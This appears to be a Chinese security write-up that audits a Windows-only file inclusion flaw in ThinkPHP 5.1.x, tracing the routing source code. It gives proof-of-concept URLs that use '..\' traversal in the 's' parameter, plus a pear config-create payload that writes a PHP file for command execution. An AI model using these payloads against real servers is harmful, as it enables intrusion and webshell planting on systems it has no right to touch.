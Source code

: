 ```info
time:   4.24
测试版本:   thinkphp 5.1.41
php:    7.3.4<br>
影响范围:   thinkphp5.1.0--thinkphp5.1.* （windows）: linux无法利用
漏洞利用poc:    index.php?s=..\..\你要包含的路径/index/index
pear进行命令执行poc:  /index.php?s=..\..\..\Extensions\php\php7.3.4nts\pear\&+config-create+/<?=phpinfo();?>+1.php
```
调用堆栈：
![](https://cdn.nlark.com/yuque/0/2024/png/35317071/1714168498133-d6fd7176-92ef-4a79-801a-9bf9ebfa18c1.png)
<h1 id="tvbAq">一.Thinkphp文件包含:</h1>
**<font style="color:#000000;">在Thinkphp5中路由可以使用一下两种方式都可以访问到执行的方法中如： </font>**

```color5
[http://127.0.0.1/index.php/index/index/hello](http://127.0.0.1/index.php/index/index/hellohttp://127.0.0.1/index.php?s=index/index/hello//)

[http://127.0.0.1/index.php?s=index/index/hello](http://127.0.0.1/index.php/index/index/hellohttp://127.0.0.1/index.php?s=index/index/hello//)
//简单一点来说其实就是对应的 模块/控制器/方法
```
![](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723994715127-eefda7aa-8d47-4eb2-b9d3-fe4e7b4847ae.png)
<h2 id="QbPXO">1.1: Thinkphp5.1.*审计过程</h2>
首先需要触发路由
http://127.0.0.1/index.php?s=index/index/hello
![](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723995478440-c7fd9c75-7834-451d-aa81-a3bcbaa99ac7.png)  
进入run方法，
![](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723998373872-13fe0a19-ea71-48af-8bff-20fd6d8d64c3.png)  
**走到405行routeCheck方法，根据注释也可以看出来是进行路由检测接着往下看，**
![](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723998590159-deac7b9b-3e5c-4206-aa2a-5640b333aea8.png)  
600行path方法，
![](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723996015405-6d303e45-3591-48c3-97a7-e185235cf94d.png)
上面执行到了pathinfo,名字可以看出来就是路径信息的意思，下面是具体代码。
```php
public function pathinfo()
{
    if (is_null($this->pathinfo)) {
        if (isset($_GET[$this->config['var_pathinfo']])) {
            // 判断URL里面是否有兼容模式参数
            $pathinfo = $_GET[$this->config['var_pathinfo']];
            unset($_GET[$this->config['var_pathinfo']]);
            unset($this->get[$this->config['var_pathinfo']]);
        } elseif ($this->isCli()) {
            // CLI模式下 index.php module/controller/action/params/...
            $pathinfo = isset($_SERVER['argv'][1]) ? $_SERVER['argv'][1] : '';
        } elseif ('cli-server' == PHP_SAPI) {
            $pathinfo = strpos($this->server('REQUEST_URI'), '?') ? strstr($this->server('REQUEST_URI'), '?', true) : $this->server('REQUEST_URI');
        } elseif ($this->server('PATH_INFO')) {
            $pathinfo = $this->server('PATH_INFO');
        }

        // 分析PATHINFO信息
        if (!isset($pathinfo)) {
            foreach ($this->config['pathinfo_fetch'] as $type) {
                if ($this->server($type)) {
                    $pathinfo = (0 === strpos($this->server($type), $this->server('SCRIPT_NAME'))) ?
                    substr($this->server($type), strlen($this->server('SCRIPT_NAME'))) : $this->server($type);
                    break;
                }
            }
        }

        if (!empty($pathinfo)) {
            unset($this->get[$pathinfo], $this->request[$pathinfo]);
        }

        $this->pathinfo = empty($pathinfo) || '/' == $pathinfo ? '' : ltrim($pathinfo, '/');
    }

    return $this->pathinfo;
}


```
```info
关键点看下面的代码
if (isset($_GET[$this->config['var_pathinfo']])) {

                $pathinfo = $_GET[$this->config['var_pathinfo']];

                unset($_GET[$this->config['var_pathinfo']]);

                unset($this->get[$this->config['var_pathinfo']]);

  其中$this->config['var_pathinfo']是s参数也就是说获取了s的参数，并且销毁了GET传入的

s,和当前类的$this->get[s]的内容返回值是$pathinfo就是我们s传的内容。

  好了再回到path，会走到if里面其中也就是匹配我们传的参数有没有.html,意义不大。

$this->path = preg_replace('/\.(' . ltrim($suffix, '.') . ')$/i', '', $pathinfo);
```
上面就是获取url参数，**routeCheck并没有结束**
```info
606行 $dispatch = $this->route->check($path, $must); 
这个没什么太多必要进去看，写的又臭又烂，关键点就是执行think\route\dispatch\url类
在就是把/替换成|。
下面是执行过程截图。
```
![](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723998207885-c9160d57-9b45-4411-b3e5-1aa30407fca3.png)

![](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723998245299-af01a603-fa78-42a0-ab33-9cb038d6b38c.png)

![](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723998468018-32332b08-1923-4ec2-be8d-ee3f31605bf6.png)
然后就直接return了，在看看init方法做了什么。
![](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723997287211-3e77a580-3125-4b71-8666-d8de961677db.png)
**parseUrl方法是把路由进行分割成数组**，
![](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723999765175-f1a4ff3a-826d-4936-b977-75d9613b5a33.png)
```php
public function parseUrlPath($url)
{
    // 分隔符替换 确保路由定义使用统一的分隔符
    $url = str_replace('|', '/', $url);
    $url = trim($url, '/');
    $var = [];

    if (false !== strpos($url, '?')) {
        // [模块/控制器/操作?]参数1=值1&参数2=值2...
        $info = parse_url($url);
        $path = explode('/', $info['path']);
        parse_str($info['query'], $var);
    } elseif (strpos($url, '/')) {
        // [模块/控制器/操作]
        $path = explode('/', $url);
    } elseif (false !== strpos($url, '=')) {
        // 参数1=值1&参数2=值2...
        $path = [];
        parse_str($url, $var);
    } else {
        $path = [$url];
    }

    return [$path, $var];
```

```danger
关键代码，也就是之前|在变回去了。  
$url = str_replace('|', '/', $url);
下面就是分割成一个数组，这里是重点。
elseif (strpos($url, '/')) {
            // 模块
            $path = explode('/', $url);

```
最后给到$path并且在54行$module在获取数组第一个，后面就直接return了。
![](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723999927569-69a90ee3-e2bd-4367-8829-2eab5e6775e0.png)
最后我们返回去看25行可以看到返回的时候new了一个类，并且执行了Module类的init方法跟进去。
![](https://cdn.nlark.com/yuque/0/2024/png/35317071/1724000360984-022697dc-5efe-44f2-a2cc-2dd06a628479.png)  
**至此到现在$this->dispatch都是我们能控制的，但是可以看到再次把/进行分割成数组了，所以/算是pass了，然后我们往下看，$result[0]也就是数组第一个给到$module。**
```php
if ($this->rule->getConfig('app_multi_module')) {
  // 多模块部署
  $module    = strip_tags(strtolower($result[0] ?: $this->rule->getConfig('default_module')));
  $bind      = $this->rule->getRouter()->getBind();
  $available = false;

  if ($bind && preg_match('/^[a-z]/is', $bind)) {
    // 绑定模块
    list($bindModule) = explode('/', $bind);
    if (empty($result[0])) {
      $module = $bindModule;
    }
    $available = true;
  } elseif (!in_array($module, $this->rule->getConfig('deny_module_list')) && is_dir($this->app->getAppPath() . $module)) {
    $available = true;
```
```danger
关键点也是重点，is_dir再熟悉不过了$this->app->getAppPath() 具体输出一下就可以路径了看到了
D://绝对路径/application/，主要看$module上面提到了这个是我们可控制的呀，但是限制了/。
} elseif (!in_array($module, $this->rule->getConfig('deny_module_list')) && is_dir($this->app->getAppPath() . $module)) {
    $available = true;
```
**$available变量为false,先让他为true，看到50行的时候是可以让$available变量为true,但是存在一个if，第一个条件是不为数组这个可以直接过了，因为在38行的时候他已经不是数组了，第2个条件是获取目录再加上$module变量其中$module变量是可以控制的，也就是说判断是否是一个真实存在的路径$this->app->getAppPath() 路径地址是 D://绝对路径/application/$module,那么大致思路就清晰了，默认情况下application存在 index extra，上面说到/已经用不了了因为他进行了2次分割成了数组，但是可以通过..\跳目录，这样..\就在一个value中不会进行分割，这也是为什么linux系统无法利用的原因，可以看下图上面也有分析到。**
![](https://cdn.nlark.com/yuque/0/2024/png/35317071/1714168694156-3769858f-848c-4138-8bab-9fa847589c62.png)  
例如  ..\..\aa/bb/cc 分割成数组，但是..\并没有进行分割，在执行到parseUrl方法54行array_shift($path) 获取第一个数组也就是..\..\aa,60行的时候获取到了bb，所以这块就绕过了，然后我们思路再次回到 Module类，49行使用..\就可以走到true, 后面的57行if就可以就下去在走到60行的app类里面的init方法。
![](https://cdn.nlark.com/yuque/0/2024/png/35317071/1724001531059-db0a5f82-039c-4846-af6b-31ef50837f70.png)
![](https://cdn.nlark.com/yuque/0/2024/png/35317071/1714168716813-87212a0d-31ec-4c43-95d2-b50dacd15683.png)  
可以看到323行遍历循环了一个参数$files，$files是从$module过来的，$module是我们的..\..\aa,321行获取了目录下面所有文件放到数组里面进行循环，在获取文件扩展名进行强比较,$this->configExt是php,所以在根目录下面创建目录，目录里面创建一个文件1.php 内容 /index.php?s=..\..\..\..\..\..\..\admin/user/name  其中admin是目录，user和name随便写,然后再去看load方法
![](https://cdn.nlark.com/yuque/0/2024/png/35317071/1714168740965-61e021e5-3eb5-4369-a269-832a31e28e89.png)  
也就是看文件是否存在，再去loadFile方法，
![](https://cdn.nlark.com/yuque/0/2024/png/35317071/1714168767080-c7cf4097-c132-4355-8159-74d24e354cf5.png)  
<font style="color:#DF2A3F;">查看扩展名是否是php，然后直接包含,为什么linux不能利用是因为linux不支持..\</font>
****
<h2 id="GVWoV">1.2: 漏洞利用</h2>
**<font style="color:#000000;">Version: thinkphp5.1.35</font>**
![](https://cdn.nlark.com/yuque/0/2024/png/35317071/1718640209013-776b02da-a38e-4038-8222-bc3994396048.png)
```java
thinkphp目录 D:\phpStudy\WWW\thinkphp5\public，在D盘根目录创建一个文件夹，下面存放1.php，
内容phpinfo();
POC: index.php?s=..\..\..\..\thinkphp5.1/xinyi/xinyi
```
![](https://cdn.nlark.com/yuque/0/2024/png/35317071/1718640501024-7baab04c-2f7c-434d-92dd-b8215011443d.png)
![](https://cdn.nlark.com/yuque/0/2024/png/35317071/1718640616406-89b49f8b-1ac2-46ec-ada6-17925fb07118.png)
****
<h2 id="KN9vm">1.3: 命令执行(pear写shell)</h2>
```java
POC:
/index.php?s=..\..\..\Extensions\php\php7.3.4nts\pear\&+config-create+/<?=phpinfo();?>+1.php
```
![](https://cdn.nlark.com/yuque/0/2024/png/35317071/1718640889745-ba75f54b-d109-4bf7-b334-1870545e8d17.png)

